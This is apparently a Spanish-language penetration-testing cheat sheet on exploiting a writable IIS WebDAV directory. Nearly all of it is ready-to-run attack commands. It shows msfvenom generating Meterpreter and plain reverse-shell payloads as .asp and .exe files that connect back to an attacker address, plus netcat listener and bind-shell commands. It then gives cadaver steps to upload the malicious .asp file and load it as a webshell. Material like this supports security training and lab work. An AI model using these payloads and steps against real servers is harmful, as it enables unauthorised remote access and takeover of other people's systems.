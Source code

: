 Webdav es una feature de IIS que permite la transferencia de archivos al servidor, por lo que en combinación con la enumeración aportada por la herramienta davtest, podremos subir un fichero malicioso con la extensión a la cuál permita escritura y ejecución, por ejemplo, suponiendo que permite subida y ejecución de archivos .asp:

# Creación del payload con msfvenom:

### Meterpreter tcp payload reverse shell

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp > shell.asp`

Con msfconsole usar módulo **exploit/multi/handler** para poner en escucha y recibir sessión meterpreter.

## Sin meterpreter: 
### Reverse shell
Crea conexión desde la víctima hacia el atacante por TCP al puerto especificado.

`msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe > shell.exe

Nos ponemos en escucha con netcat : `nc -nvlp <puerto>`

### Bind shell

Abre un puerto especificado en la víctima y el atacante puede conectarse cuando quiera a través de netcat:
`nc 192.168.1.10 4444
`

# Explotación de webdav:

 1.- Conexión al servidor webdav con Cadaver:

`cadaver http://<IP_DEL_SERVIDOR>/webdav
`
2.- Subida del fichero malicioso:
`put ruta/archivo.asp`

3.- Ve al navegador y carga el fichero subido y se obtendrá la webshell
